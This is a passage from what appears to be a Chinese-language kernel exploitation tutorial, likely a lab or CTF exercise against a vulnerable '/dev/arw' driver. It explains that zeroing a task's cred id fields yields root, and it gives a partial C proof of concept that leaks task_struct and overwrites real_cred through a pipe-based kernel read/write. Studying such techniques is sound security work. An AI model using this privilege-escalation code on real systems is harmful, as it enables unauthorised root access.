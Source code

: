 ```C
    kgid_t      egid;       /* effective GID of the task */
    kuid_t      fsuid;      /* UID for VFS ops */
    kgid_t      fsgid;      /* GID for VFS ops */
    unsigned    securebits; /* SUID-less security management */
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>其结构中的*id字段定义了一个作业的权限，如果我们把一系列id结构全部设置为0，那就是root（**root uid为0**）。所以知道该怎么做了吧？poc如下：</font></br>

```C
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
struct param
{
    size_t len;
    char* buf;
    char* addr;
};

int pipefd[2];

int kmemcpy(void *dest, void *src, size_t size)
{
    write(pipefd[1], src, size);
    read(pipefd[0], dest, size);
    return size;
}

int main(void)
{
    int fd;
    char buf[16];

    fd = open("/dev/arw", O_RDWR);
    if (fd == -1) {
        printf("open hello device failed!\n");
        return -1;
    }

    struct param p;
    ioctl(fd, 5, &p);
    printf("got thread_info: %p\n", p.addr);
    char * info = p.addr;
    int ret_val = pipe(pipefd);
    if (ret_val < 0) {
        printf("pipe failed: %d\n", ret_val);
        exit(1);
    }

    kmemcpy(buf, info, 16);
    void* task_addr = (void *)(*(long *)buf);
    //p &((struct task_struct*)0)->real_cred
    // 0x5a8
    kmemcpy(buf, task_addr+0x5f0, 16);
    char* real_cred = (void *)(*(long *)buf);
    printf("task_addr: %p\n", task_addr);
    printf("real_cred: %p\n", real_cred);
    char* cred_ids = malloc(0x1c);
    memset(cred_ids, 0, 0x1c);

    kmemcpy(real_cred, cred_ids, 0x1c);

    kmemcpy(real_cred+8, &real_cred, 8);
```